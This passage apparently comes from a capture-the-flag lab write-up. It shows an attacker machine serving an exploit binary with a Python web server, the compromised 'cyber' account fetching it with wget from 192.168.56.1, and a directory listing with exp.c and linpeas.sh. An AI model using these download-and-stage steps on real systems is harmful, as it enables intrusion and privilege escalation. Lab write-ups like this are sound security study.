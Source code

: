 ```
┌──(cyberkid㉿cyberkiddle)-[~/Desktop/redteam/vulnlab/jagwa]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.56.108 - - [04/May/2025 03:19:20] "GET /exp HTTP/1.1" 200 -


```
> Warning this might harm your mashine so we have to be so clear on what your doing
{: .prompt-danger }

## Executing the code and run it.
> lets run this damn
{: .prompt-danger }
Lets get this bread
```
cyber@breakout:~$ wget http://192.168.56.1:80/exp
wget http://192.168.56.1:80/exp
--2025-05-03 23:19:14--  http://192.168.56.1/exp
Connecting to 192.168.56.1:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 793816 (775K) [application/octet-stream]
Saving to: ‘exp’

     0K .......... .......... .......... .......... ..........  6% 20.7M 0s
    50K .......... .......... .......... .......... .......... 12% 15.3M 0s
   100K .......... .......... .......... .......... .......... 19% 19.1M 0s
   150K .......... .......... .......... .......... .......... 25% 15.8M 0s
   200K .......... .......... .......... .......... .......... 32% 14.4M 0s
   250K .......... .......... .......... .......... .......... 38% 16.3M 0s
   300K .......... .......... .......... .......... .......... 45% 30.0M 0s
   350K .......... .......... .......... .......... .......... 51% 26.2M 0s
   400K .......... .......... .......... .......... .......... 58% 27.9M 0s
   450K .......... .......... .......... .......... .......... 64%  137M 0s
   500K .......... .......... .......... .......... .......... 70%  162M 0s
   550K .......... .......... .......... .......... .......... 77% 53.4M 0s
   600K .......... .......... .......... .......... .......... 83% 58.5M 0s
   650K .......... .......... .......... .......... .......... 90% 87.1M 0s
   700K .......... .......... .......... .......... .......... 96%  222M 0s
   750K .......... .......... .....                           100%  211M=0.03s

2025-05-03 23:19:14 (29.0 MB/s) - ‘exp’ saved [793816/793816]

cyber@breakout:~$ ls -al 
ls -al 
total 2180
drwxr-xr-x  8 cyber cyber   4096 May  3 23:19 .
drwxr-xr-x  3 root  root    4096 Oct 19  2021 ..
-rw-------  1 cyber cyber    508 May  3 23:03 .bash_history
-rw-r--r--  1 cyber cyber    220 Oct 19  2021 .bash_logout
-rw-r--r--  1 cyber cyber   3526 Oct 19  2021 .bashrc
-rw-r--r--  1 cyber cyber 793816 May  4  2025 exp
-rwxr-xr-x  1 cyber cyber   4527 May  4  2025 exp.c
drwxr-xr-x  2 cyber cyber   4096 Oct 19  2021 .filemin
drwx------  3 cyber cyber   4096 May  3 23:05 .gnupg
-rwxr-xr-x  1 cyber cyber 840139 May  3 13:09 linpeas.sh
drwxr-xr-x  3 cyber cyber   4096 Oct 19  2021 .local
-rw-r--r--  1 cyber cyber    807 Oct 19  2021 .profile
drwx------  2 cyber cyber   4096 Oct 19  2021 .spamassassin
-rwxr-xr-x  1 root  root  531928 Oct 19  2021 tar
drwxr-xr-x  2 cyber cyber   4096 Oct 20  2021 .tmp
drwx------ 17 cyber cyber   4096 May  3 22:40 .usermin
-rw-r--r--  1 cyber cyber     48 Oct 19  2021 user.txt
```